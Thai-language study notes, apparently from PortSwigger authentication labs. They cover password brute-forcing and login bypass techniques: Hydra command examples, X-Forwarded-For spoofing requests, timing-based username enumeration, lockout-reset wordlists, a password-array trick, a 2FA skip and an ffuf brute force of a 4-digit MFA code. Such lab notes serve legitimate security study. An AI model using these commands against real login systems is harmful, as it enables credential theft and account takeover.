## การยืนยันตัวตนคืออะไร?

การยืนยันตัวตนคือกระบวนการตรวจสอบเอกลักษณ์ของผู้ใช้หรือลูกค้า เว็บไซต์มีความเสี่ยงที่จะถูกเข้าถึงได้จากทุกคนที่เชื่อมต่ออินเทอร์เน็ต ทำให้กลไกการยืนยันตัวตนที่แข็งแกร่งเป็นส่วนสำคัญของความปลอดภัยเว็บที่มีประสิทธิภาพ

มีการยืนยันตัวตนหลักสามประเภท:

1. **สิ่งที่คุณรู้** เช่น รหัสผ่านหรือคำตอบของคำถามความปลอดภัย สิ่งเหล่านี้บางครั้งเรียกว่า "ปัจจัยความรู้"
2. **สิ่งที่คุณมี** นี่คือวัตถุทางกายภาพ เช่น โทรศัพท์มือถือหรือโทเค็นความปลอดภัย สิ่งเหล่านี้บางครั้งเรียกว่า "ปัจจัยการครอบครอง"
3. **สิ่งที่คุณเป็นหรือสิ่งที่คุณทำ** เช่น ข้อมูลชีวมิติหรือรูปแบบพฤติกรรมของคุณ สิ่งเหล่านี้บางครั้งเรียกว่า "ปัจจัยความเป็นตัวตน"

กลไกการยืนยันตัวตนพึ่พาเทคโนโลยีหลากหลายเพื่อตรวจสอบปัจจัยเหล่านี้อย่างน้อยหนึ่งปัจจัยหรือมากกว่า

## What is the difference between authentication and authorization?

Authentication  คือกระบวนการตรวจสอบว่าผู้ใช้เป็นคนที่เขาอ้างว่าเป็นจริงๆ ส่วน Authorization คือการตรวจสอบว่าผู้ใช้ได้รับอนุญาตให้ทำอะไรบ้าง

ตยอกเช่น การยืนยันตัวตนจะกำหนดว่าใครที่พยายามเข้าถึงเว็บไซต์ด้วยชื่อผู้ใช้ Carlos123 เป็นคนเดียวกับคนที่สร้างบัญชีนั้นจริงๆ หรือไม่

เมื่อ Carlos123 ได้รับการยืนยันตัวตนแล้ว สิทธิ์ของเขาจะกำหนดว่าเขาได้รับอนุญาตให้ทำอะไรได้บ้าง เช่น เขาอาจได้รับอนุญาตให้เข้าถึงข้อมูลส่วนบุคคลของผู้ใช้คนอื่น หรือทำการกระทำต่างๆ เช่น ลบบัญชีของผู้ใช้คนอื่น

## ช่องโหว่ในการยืนยันตัวตนเกิดขึ้นได้อย่างไร?

ช่องโหว่ส่วนใหญ่ในกลไกการยืนยันตัวตนเกิดขึ้นได้สองวิธี:

1. **กลไกการยืนยันตัวตนอ่อนแอ** เพราะไม่สามารถป้องกันการโจมตีแบบ brute-force ได้อย่างเพียงพอ
2. **ข้อบกพร่องทางตรรกะหรือการเขียนโค้ดที่แย่** ในการนำไปใช้ทำให้ผู้โจมตีสามารถหลบเลี่ยงกลไกการยืนยันตัวตนได้โดยสิ้นเชิง บางครั้งเรียกว่า "การยืนยันตัวตนที่เสียหาย"

ในหลายๆ ด้านของการพัฒนาเว็บ ข้อบกพร่องทางตรรกะทำให้เว็บไซต์ทำงานไม่ตามที่คาดหวัง ซึ่งอาจจะเป็นปัญหาความปลอดภัยหรือไม่ก็ได้ อย่างไรก็ตาม เนื่องจากการยืนยันตัวตนมีความสำคัญต่อความปลอดภัยมาก จึงมีโอกาสสูงมากที่ตรรกะการยืนยันตัวตนที่บกพร่องจะเปิดช่องให้เว็บไซต์มีปัญหาความปลอดภัย




ใช้ burp intruder





sort by length หาด้วย Invalid username  ทำแปปเดียวกันหา password

ใช้ hydra






# คำสั่ง Hydra - คู่มือฉบับสมบูรณ์

## **Basic Syntax**
```bash
hydra [options] target service
```

## **Username/Password Options**
```bash
-l username        # Username เดียว
-L username.txt    # Username list จากไฟล์
-p password        # Password เดียว
-P password.txt    # Password list จากไฟล์
-e nsr            # ลอง empty, same as username, reverse username
-x 3:5:a          # Generate passwords (min:max:charset)
```

## **Common Services**
```bash
# Web Forms
http-post-form    # HTTP POST form
https-post-form   # HTTPS POST form
http-get-form     # HTTP GET form

# Network Services
ssh               # SSH
ftp               # FTP
telnet           # Telnet
smb              # SMB/CIFS
mysql            # MySQL
rdp              # RDP
```

## **Web Form Syntax**
```bash
"path:username=^USER^&password=^PASS^:failure_condition"

# Examples:
"/login:username=^USER^&password=^PASS^:F=Invalid"
"/login:user=^USER^&pass=^PASS^:S=Welcome"
"/login:username=^USER^&password=^PASS^:H=Cookie: session=abc"
```

## **Common Options**
```bash
-t 16             # จำนวน threads (default: 16)
-f                # หยุดเมื่อเจอ valid credentials แรก
-V                # แสดงการลองแต่ละครั้ง
-v                # Verbose output
-I                # ข้าม restore file warning
-o output.txt     # บันทึกผลลัพธ์
-R                # Resume จาก restore file
```

## **Failure/Success Conditions**
```bash
F=text            # Failure condition (ถ้าเจอข้อความนี้ = ล้มเหลว)
S=text            # Success condition (ถ้าเจอข้อความนี้ = สำเร็จ)
H=header          # เพิ่ม HTTP header
```
**หลักการทำงาน:**
- Hydra จะดูใน HTTP response ว่ามีข้อความ "Invalid username" หรือไม่
- ถ้า**มี** = การล็อกอินล้มเหลว (credentials ผิด)
- ถ้า**ไม่มี** = การล็อกอินสำเร็จ (credentials ถูก)

## ตัวอย่างการทำงาน:

**เมื่อ username/password ผิด:**
```
HTTP Response: "Invalid username or password"
→ Hydra เห็น "Invalid username" ใน response
→ รู้ว่าล้มเหลว → ลองต่อไป
```

**เมื่อ username/password ถูก:**
```
HTTP Response: "Welcome to dashboard" หรือ redirect ไป /dashboard
→ Hydra ไม่เจอ "Invalid username" ใน response
→ รู้ว่าสำเร็จ → แสดงผลลัพธ์
```

## เหตุผลที่สำคัญ:

หาก**ไม่มี** F= หรือ S=, Hydra จะไม่รู้ว่าการล็อกอินสำเร็จหรือล้มเหลว จึงแสดงผลลัพธ์ผิดพลาดได้

ดังนั้น `F=Invalid username` จึงเป็นการบอก Hydra ว่า "ถ้าเห็นข้อความนี้ = ลองใหม่, ถ้าไม่เห็น = เจอแล้ว!" ครับ

## **ตัวอย่างการใช้งาน**

### **1. Basic Web Login**
```bash
hydra -L users.txt -P passwords.txt target.com http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid"
```

### **2. SSH Brute Force**
```bash
hydra -l admin -P passwords.txt target.com ssh
```

### **3. FTP Brute Force**
```bash
hydra -L users.txt -P passwords.txt target.com ftp
```

### **4. Single User, Multiple Passwords**
```bash
hydra -l admin -P rockyou.txt target.com ssh
```

### **5. ใช้ Generated Passwords**
```bash
hydra -l admin -x 6:8:aA1 target.com ssh
# 6-8 ตัวอักษร: a(lowercase) A(uppercase) 1(numbers)
```

### **6. HTTPS Form with Cookie**
```bash
hydra -L users.txt -P pass.txt target.com https-post-form "/login:user=^USER^&pass=^PASS^:H=Cookie\: session=abc123:F=Invalid"
```

## **PortSwigger Lab Examples**
```bash
# Username enumeration
hydra -L usernames.txt -p password target.com https-post-form "/login:username=^USER^&password=^PASS^:F=Invalid username"

# Password brute force
hydra -l carlos -P passwords.txt target.com https-post-form "/login:username=^USER^&password=^PASS^:F=Incorrect password"

# Full brute force
hydra -L users.txt -P passwords.txt target.com https-post-form "/login:username=^USER^&password=^PASS^:F=Invalid username"
```

## **Tips & Best Practices**
- ใช้ `-f` เพื่อหยุดเมื่อเจอ credentials แรก
- ใช้ `-t` ปรับจำนวน threads ให้เหมาะสม
- ใช้ `-V` เพื่อดูการทำงานแบบ real-time
- บันทึกผลลัพธ์ด้วย `-o`
- ระวัง rate limiting ของ target












**เมื่อไม่มี proxy/load balancer:**
- Client → Server โดยตรง
- Server เห็น IP ของ client จริงๆ ผ่าน socket connection

**เมื่อมี proxy/load balancer:**
- Client → Proxy → Server  
- Server เห็นแต่ IP ของ Proxy เท่านั้น!
- IP ของ client หายไป


# X-Forwarded-For Header

`X-Forwarded-For` เป็น HTTP header ที่สำคัญมากในการทำความเข้าใจเกี่ยวกับการติดตาม IP address ในระบบเครือข่าย โดยเฉพาะเมื่อมี proxy หรือ load balancer เข้ามาเกี่ยวข้อง

## X-Forwarded-For คืออะไร?

`X-Forwarded-For` (XFF) เป็น de facto standard header ที่ใช้ระบุ IP address ดั้งเดิมของ client ที่เชื่อมต่อกับ web server ผ่าน HTTP proxy หรือ load balancer

## รูปแบบการใช้งาน

```
X-Forwarded-For: client, proxy1, proxy2
```

**ตัวอย่าง:**
```
X-Forwarded-For: 203.0.113.195, 70.41.3.18, 150.172.238.178
```

- `203.0.113.195` = IP ของ client จริง
- `70.41.3.18` = Proxy แรก
- `150.172.238.178` = Proxy ที่สอง

## ทำไมต้องมี X-Forwarded-For?

เมื่อ client เชื่อมต่อผ่าน proxy:
- Web server จะเห็นเพียง IP ของ proxy เท่านั้น
- IP ของ client จริงจะหายไป
- X-Forwarded-For ช่วยเก็บข้อมูล IP ต้นทางไว้


### การหลบเลี่ยง IP Blocking
```http
POST /login HTTP/1.1
Host: vulnerable-site.com
X-Forwarded-For: 192.168.1.100
Content-Type: application/x-www-form-urlencoded

username=admin&password=wrong1

POST /login HTTP/1.1
Host: vulnerable-site.com
X-Forwarded-For: 192.168.1.101
Content-Type: application/x-www-form-urlencoded

username=admin&password=wrong2
```

เซิร์ฟเวอร์จะเห็นเป็นคนละ IP จึงไม่บล็อก brute force



เลือก pitfork attack จะสารถเลือกหลาย posision ของ payload



จากระบบ login ไม่มีการใบ้ ของการ logiun fail ทำให้เราเลือกใช้วิธีโจมตีที่ดูจากเวลาในการ compare password โดยการทำงานทั่วไปของ web authentication จะ compare username ถ้า username match จะไป compare hash password ซึ่งจะใช้เวลานานกว่า request อื่นที่ username not match ส่งผลให้เราสามารถสังเกตุได้ว่า request ที่ใช้เวลานานกว่าปกติ เป็น request ที่ match username ทำให้การ bruce force username ของเราสำเร็จ 



sort by Response received - The time taken to begin receiving a response (in milliseconds).



เมื่อทำให้ password ยาวขึ้น ก็จะเห็นว่า ใช้ Response received time มากขึ้น



server จะ block ip client เมื่อ login fail 3 ครั้ง เพียงแต่ถ้าเรามี credentail (wiener:peter) อื่นที่สามารถ login ได้ จะทำให้ count reset ซึ่งนำไปสู่การ bruce force โดยการปรับ wordlist credentail ให้เข้า login fail 2 ครั้ง แล้ว login success 1 ครั้ง 

btw ข้อนีให้ username victim มาให้ด้วย (carlos) ถ้าไม่ให้มาจะใช้เวลา bruce force เยอะขึ้นมาก

ตัวอย่าง
```
username  password

wiener    peter
carlos    123456
carlos    password
wiener    peter
carlos    12345678
carlos    qwerty

```



ใช้ pitfork attack เพื่อสารถเลือก 2 payload ได้



ถ้า username match แต่ login fail หลายครั้ง account จะถูก lock

ถ้า username not match จะ bructe force ได้ Invalid username or password

หลักการทำคือ bruce force username เดิมเรื่อยๆ จน account โดน lock แสดงว่า username match







cluster bomb attack ทำ bruce force ของ payload 1 ตามจำนวนของ payload 2

payload 1 มี 101 word,payload 2 มี 5 words (5 nulls) 

คือ 101,null 101,null 101,null 101,null 101,null

จะได้ 505 wordlists



505 wordlists ด้วย burp community ช้ามาก



ข้อนี้ backend แปลก แม้ว่า account โดน block 1mins แต่ username และ password match ระหว่างที่โดน block account อยู่ ก็ยัง login ได้

พฤติกรรมที่ถูกต้องควรเป็น:
เมื่อบัญชีถูก lock แล้ว → ไม่ควรให้ล็อกอินได้เลย ไม่ว่า username/password จะถูกต้องหรือไม่


##  **Logic ตรวจสอบไม่ถูกลำดับ**

### ❌ ตรวจสอบ password ก่อน:
```python
def login(username, password):
    user = get_user(username)
    if user and check_password(user, password):  # เช็คนี้ก่อน!
        return login_success()
    
    # เช็ค lock ทีหลัง ← ช้าไปแล้ว!
    if is_account_locked(username):
        return "Account locked"
    
    increment_failed_attempts(username)
    return "Invalid credentials"
```

### ✅ ตรวจสอบ lock ก่อนเสมอ:
```python
def login(username, password):
    if is_account_locked(username):  # เช็คนี้ก่อนเสมอ!
        return "Account locked"
    
    user = get_user(username)
    if user and check_password(user, password):
        reset_failed_attempts(username)
        return login_success()
    
    increment_failed_attempts(username)
    return "Invalid credentials"
```

## **ปัญหา Race Condition**

```python
# ❌ ไม่ threadsafe
def login(username, password):
    attempts = get_failed_attempts(username)  # อ่าน: 4
    if attempts >= 5:
        return "locked"
    
    # ขณะนี้ request อื่นเพิ่ม attempts เป็น 5 แล้ว!
    if check_password(password):
        return "success"  # ผ่านได้เพราะยังไม่รู้ว่าถูก lock
```






การส่ง password เป็น array แทนที่จะเป็น string เดียว ซึ่งเป็นเทคนิคการโจมตีที่เรียกว่า **"JSON Parameter Pollution"** หรือ **"Password Array Attack"**

Backend ที่มีช่องโหว่นี้อาจจะมีลักษณะดังนี้:

## 1. **Vulnerable Code Example (Python/Flask)**
```python
@app.route('/login', methods=['POST'])
def login():
    data = request.get_json()
    username = data.get('username')
    password = data.get('password')
    
    # ช่องโหว่: ไม่ได้ validate type ของ password
    if isinstance(password, list):
        # บางทีอาจจะเอาตัวแรกมาใช้
        password = password[0]
    
    # หรือใช้ in operator โดยไม่ตั้งใจ
    if username == "carlos" and user_password in password:  # ผิด!
        return {"status": "success"}
```

## 2. **Vulnerable Logic ที่เป็นไปได้:**

### **Type Confusion:**
- Backend อาจจะ convert array เป็น string โดยอัตโนมัติ
- หรือใช้ตัวแรกใน array เป็น password

### **Operator Misuse:**
```python
# ถ้าเขียนผิดเป็น
if correct_password in password_array:  # แทนที่จะเป็น ==
    return login_success()
```

### **Loose Comparison:**
```javascript
// JavaScript - Type coercion
if (userPassword == submittedPassword) {  // ใช้ == แทน ===
    // อาจจะ true ถ้า array มี password ที่ถูกต้อง
}
```


## **การข้ามผ่านการยืนยันตัวตนสองปัจจัย**

บางครั้ง การ implement การยืนยันตัวตนสองปัจจัยมีข้อบกพร่องถึงขนาดที่สามารถข้ามผ่านไปได้ทั้งหมด

หากผู้ใช้ถูกขอให้ใส่รหัสผ่านก่อน แล้วจึงถูกขอให้ใส่รหัสยืนยันในหน้าแยกต่างหาก ผู้ใช้นั้นจะอยู่ในสถานะ "เข้าสู่ระบบแล้ว" อย่างแท้จริงก่อนที่พวกเขาจะใส่รหัสยืนยัน ในกรณีนี้ ควรทดสอบดูว่าคุณสามารถข้ามไปยังหน้า "สำหรับผู้ที่เข้าสู่ระบบแล้วเท่านั้น" ได้โดยตรงหลังจากผ่านขั้นตอนการยืนยันตัวตนแรกหรือไม่ บางครั้งคุณจะพบว่าเว็บไซต์ไม่ได้ตรวจสอบจริงๆ ว่าคุณผ่านขั้นตอนที่สองหรือไม่ก่อนที่จะโหลดหน้าเว็บ



Victim's credentials carlos:montoya  เพียงแต่ติด  2FA 



หลักการทำข้อนี้คือ เมื่อส่ง request /login สำเร็จ จะไป /login2 ซึ่งเป็นหน้า สำหรับ 2FA 





เราจะ drop packet นี้ทิ้ง เพื่อข้ามระบบ 2FA



แล้วไปที่หน้า /my-account



เหมือนหลังบ้านนับว่าการ login success ก็ให้ session มาเลย เพียงแต่ก่อนใช้งานระบบให้เข้าไป ยืนยันตัวตนก่อน ดังนั้นเมื่อเราดรอป packet ที่ใช้เข้าสู่การยืนยันตัว เสมือนว่าเราได้ทำการยืนยันตัวตนแล้ว 








ที่เพิ่มมาจะเป็น การใช้ cookie ที่เป็นตัวระบุ username

การใช้ session จำทำงานต่อ 1 request เมื่อส่ง request เดิมจะใช้ไม่ได้ เนื่องจากเป็น session ที่ถูกลบไปแล้ว เมท่อลองลบ sessoin ออกจาก header จะสามารถทำ bruce force ได้



api นี้จะสร้างและส่ง code 4-digit เข้า mail เมื่อลองเปลี่ยน cookie เป็น carlos 4-digit code จะไม่สร้างและส่ง mail wiener จะสร้างและส่ง เข้า mail carlos แทน



ทีนี้ก็เหลือเพียง bruce force 4-digit code โดยการลบ session ออกจาก request

จาก 10,000 request burp community intruder default จะช้ามาก เลยใช้ turbo intruder extention

ทำ payload

```
┌──(kali㉿DESKTOP-KQAT41L)-[/mnt/…/Desktop/PortSwigger/LAB/Authentication]
└─$ seq -w 0000 9999 >number2.txt
```



```
┌──(kali㉿DESKTOP-KQAT41L)-[/mnt/…/Desktop/PortSwigger/LAB/Authentication]
└─$ ffuf -w number2.txt -X POST -H "Cookie: verify=carlos" -H "Content-Type: application/x-www-form-urlencoded" -d "mfa-code=FUZZ" -u https://0aa4001403802abc8071808d000f0065.web-security-academy.net/login2 -fr "Incorrect"
```